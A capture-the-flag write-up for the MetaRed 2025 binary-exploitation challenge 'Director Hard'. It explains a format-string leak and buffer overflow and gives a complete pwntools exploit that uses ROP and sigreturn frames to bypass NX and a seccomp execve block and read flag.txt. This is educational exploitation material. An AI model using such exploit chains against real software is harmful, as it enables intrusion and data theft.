

# Metared Cine Festival Level 2 - PWN Challenge

## Challenge Information
- **CTF:** MetaRed 2025
- **Category:** Binary Exploitation
- **Challenge:** Metared Cine Festival Level 2 (Director Hard)
- **Remote:** challs.ctf.cert.unlp.edu.ar:48193

## Binary Protections



```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Key observations:
- **No stack canary** - Buffer overflow possible
- **NX enabled** - Stack is NOT executable (no shellcode injection)
- **No PIE** - Some fixed addresses, but libc is randomized
- **Partial RELRO** - GOT is writable

This is significantly harder than level 1 due to NX being enabled, requiring a ROP-based approach.

## Vulnerability Analysis

Similar to level 1, the binary has:
1. **Format string vulnerability** - Allows leaking addresses
2. **Buffer overflow** - Allows controlling the stack

However, with NX enabled, we cannot execute shellcode directly. We must use Return-Oriented Programming (ROP) with SROP (Sigreturn-Oriented Programming).

### Seccomp Restrictions

The binary implements the same seccomp filtering as level 1:

```c
__int64 setup_seccomp()
{
  __int64 v1;
  
  v1 = seccomp_init(2147418112);  // SCMP_ACT_ALLOW
  seccomp_rule_add(v1, 0, 59, 0);   // Block execve (syscall 59)
  seccomp_rule_add(v1, 0, 322, 0);  // Block execveat (syscall 322)
  seccomp_load(v1);
  return seccomp_release(v1);
}
```

**Blocked syscalls:**
- `execve` (59) - Cannot spawn shells or execute binaries
- `execveat` (322) - Cannot execute programs via file descriptors

Combined with NX, this means:
1. We cannot execute shellcode on the stack (NX protection)
2. We cannot use ROP to call `system()` or `execve()` (seccomp blocks it)
3. We must use ROP with allowed syscalls: `open`, `read`, `write`

This is why the exploit uses SROP to manually invoke these syscalls rather than trying to spawn a shell.

## Exploitation Strategy

### Stage 1: Information Leaks
1. Send `%p.%p.%p` to leak multiple stack/libc addresses
2. Calculate:
   - Stack address for locating our buffer
   - Libc base address (leaked_libc - 0xec8f7)
   - RBP location (stack + 0x2230)

### Stage 2: ROP Chain with SROP
Build a ROP chain that:
1. Opens `flag.txt` using libc's `open` function
2. Uses SROP (Sigreturn) to read the flag into memory
3. Uses SROP again to write the flag to stdout

## Exploit Code

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

glibc = ELF("./libc.so.6", checksec=False)
binary = ELF("./director_hard")
p = remote("challs.ctf.cert.unlp.edu.ar", 48193)

# Step 1: Leak addresses via format string
data = b"%p.%p.%p"
p.sendline(data)
p.recvuntil(b"You entered:")
leaks = p.recvline().strip().split(b".")

# Parse leaks
stack = int(leaks[0], 16)
log.info(f"stack: {hex(stack)}")

libc = int(leaks[2], 16)
log.info(f"libc: {hex(libc)}")

libc_base = libc - 0xec8f7
log.info(f"libc_base: {hex(libc_base)}")

rbp = stack + 0x2230
log.info(f"rbp: {hex(rbp)}")

# Gadgets from libc
pop_rax = 0x1deb0 + libc_base 
pop_rdi = 0x23e5 + libc_base 
pop_rsi = 0x3e51 + libc_base
mov_eax = 0x2e713 + libc_base
syscall = 0x1db4 + libc_base

offset = 0x118

# Payload starts with filename
attack = b"flag.txt\x00"
padding = b"a" * (offset - len(attack))

# ROP Chain
rop = p64(pop_rdi)
rop += p64(rbp - 0x110)  # Pointer to "flag.txt"
rop += p64(pop_rsi)
rop += p64(0)  # O_RDONLY
rop += p64(0xec550 + libc_base)  # open() function

# Read flag using SROP
rop += p64(pop_rax)
rop += p64(0xf)  # Sigreturn syscall number
rop += p64(syscall)

frame = SigreturnFrame()
frame.rax = 0  # read syscall
frame.rdi = 3  # File descriptor (opened file)
frame.rsi = rbp  # Buffer to read into
frame.rdx = 0x100  # Bytes to read
frame.rsp = rbp + 0x140
frame.rip = 0x0000000000401090  # read@plt

rop += bytes(frame)

# Write flag using SROP
rop += p64(pop_rax)
rop += p64(0xf)  # Sigreturn syscall number
rop += p64(syscall)

frame2 = SigreturnFrame()
frame2.rax = 1  # write syscall
frame2.rdi = 1  # stdout
frame2.rsi = rbp  # Buffer containing flag
frame2.rdx = 0x100  # Bytes to write
frame2.rsp = rbp + 0x140
frame2.rip = syscall

rop += bytes(frame2)

payload = attack + padding + rop

p.sendline(payload)
p.interactive()
```

## Solution Breakdown

### 1. Multi-Value Format String Leak
```python
data = b"%p.%p.%p"
leaks = p.recvline().strip().split(b".")
stack = int(leaks[0], 16)
libc = int(leaks[2], 16)
libc_base = libc - 0xec8f7
rbp = stack + 0x2230
```
Leaking multiple values allows us to:
- Locate our buffer on the stack
- Calculate libc base address to find gadgets

### 2. Opening the Flag File
```python
rop = p64(pop_rdi)
rop += p64(rbp - 0x110)  # "flag.txt" string location
rop += p64(pop_rsi)
rop += p64(0)  # O_RDONLY flag
rop += p64(0xec550 + libc_base)  # Call open()
```
This ROP chain calls `open("flag.txt", O_RDONLY)`, which returns file descriptor 3.

### 3. SROP for Reading
```python
frame = SigreturnFrame()
frame.rax = 0  # read syscall number
frame.rdi = 3  # fd from open()
frame.rsi = rbp  # destination buffer
frame.rdx = 0x100  # read 256 bytes
frame.rip = 0x401090  # read@plt
```
SROP (Sigreturn-Oriented Programming) allows us to set all registers at once by crafting a fake signal frame. The `sigreturn` syscall (number 15/0xf) restores all registers from this frame, giving us complete control.

This frame sets up a `read(3, rbp, 0x100)` call to read the flag into memory.

### 4. SROP for Writing
```python
frame2 = SigreturnFrame()
frame2.rax = 1  # write syscall number
frame2.rdi = 1  # stdout
frame2.rsi = rbp  # buffer with flag
frame2.rdx = 0x100  # write 256 bytes
frame2.rip = syscall
```
Another SROP frame to execute `write(1, rbp, 0x100)`, printing the flag to stdout.

### 5. Payload Structure
```
[flag.txt\x00] [padding] [ROP chain]
     ^                         |
     |                         |
     +-------------------------+
           rbp - 0x110
```

## Why SROP?

With NX enabled, we need ROP. However, we have limited gadgets and need to:
1. Call `open()` with specific arguments
2. Call `read()` with a file descriptor we don't know at compile time
3. Call `write()` to output the result

SROP is perfect because:
- One syscall (`sigreturn`) sets ALL registers
- We can chain multiple SROP frames
- Each frame can call different syscalls or functions
- Minimal gadgets needed (just `pop rax; ret` and `syscall`)

## Flag
The exploit successfully opens, reads, and prints the flag.

## Key Takeaways
- NX protection requires ROP instead of shellcode injection
- SROP is powerful when you need precise register control
- Format string leaks are crucial for defeating ASLR
- Multiple SROP frames can be chained for complex operations
- Understanding syscall conventions (rax=syscall number, rdi/rsi/rdx=args) is essential
